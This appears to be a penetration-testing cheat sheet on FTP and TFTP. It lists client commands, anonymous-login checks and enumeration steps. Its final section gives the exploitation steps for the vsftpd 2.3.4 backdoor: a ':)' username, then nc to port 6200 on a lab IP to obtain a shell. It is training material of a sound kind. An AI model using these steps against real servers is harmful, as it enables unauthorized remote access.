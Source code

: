 ```yaml
---
icon: file-chart-column
description: File Transfer Protocol
---
```


# FTP

{% hint style="info" %}
* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`Port 20`**</mark> <mark style="color:purple;">for</mark> <mark style="color:purple;">**Data**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:orange;">**`Port 21`**</mark>**&#x20;**<mark style="color:purple;">**for Commands.**</mark>&#x20;
* <mark style="color:purple;">It can use</mark> <mark style="color:orange;">**`UDP`**</mark> <mark style="color:purple;">over</mark> <mark style="color:orange;">**`Port 69`**</mark> <mark style="color:purple;">for</mark> <mark style="color:orange;">**`TFTP`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Always check for</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login being enabled.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Basic Commands</mark>

* <mark style="color:purple;">Start the service:</mark>

{% code lineNumbers="true" %}
```bash
ftp <IP>
tftp <IP>
```
{% endcode %}

* <mark style="color:purple;">To login as any other user:</mark>

```bash
USER <user>
```

* <mark style="color:purple;">To specify a password:</mark>

```bash
PASS <password>
```

* <mark style="color:purple;">Download a file:</mark>

```sh
get <file>
```

* <mark style="color:purple;">Upload a file:</mark>

```sh
put <file_path> <destination_path>
```

* <mark style="color:purple;">Passive mode:</mark>

```sh
passive
```

* <mark style="color:purple;">Change the local directory for downloads:</mark>

```sh
lcd /home/<your-username>
```

* <mark style="color:purple;">Exit the session:</mark>

```shell
quit
```

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login is enabled, use</mark> <mark style="color:orange;">**`curl`**</mark><mark style="color:purple;">:</mark>

```sh
curl -O ftp://<server-address>/path/to/file
```

***

#### <mark style="color:orange;">`TFTP`</mark>

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`binary`**</mark> <mark style="color:purple;">mode for non-text files:</mark>

```sh
mode binary
```

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`ASCII`**</mark> <mark style="color:purple;">mode for text files:</mark>

```sh
mode ascii
```

* <mark style="color:purple;">To look for files in the</mark>  <mark style="color:orange;">**`TFTP`**</mark> <mark style="color:purple;">root:</mark>

```
find / -name file.txt
```
{% endhint %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

* <mark style="color:purple;">Is always good practice to look for vulnerabilities:</mark>

```bash
searchsploit <version>
```

* <mark style="color:purple;">Check where you land:</mark>

```bash
pwd
```

* <mark style="color:purple;">List directories:</mark>

```bash
dir
```
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`vsftpd 2.3.4`</mark>

* <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`FTP`**</mark> <mark style="color:purple;">with any username that contains</mark> <mark style="color:orange;">**`:)`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`any password`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Then connect to</mark> <mark style="color:orange;">**`port 6200`**</mark> <mark style="color:purple;">to get a shell:</mark>

```bash
nc 10.10.10.131 21
```

* <mark style="color:purple;">Now connect to the backdoor:</mark>

```bash
nc 10.10.10.131 6200
```

***


{% endhint %}
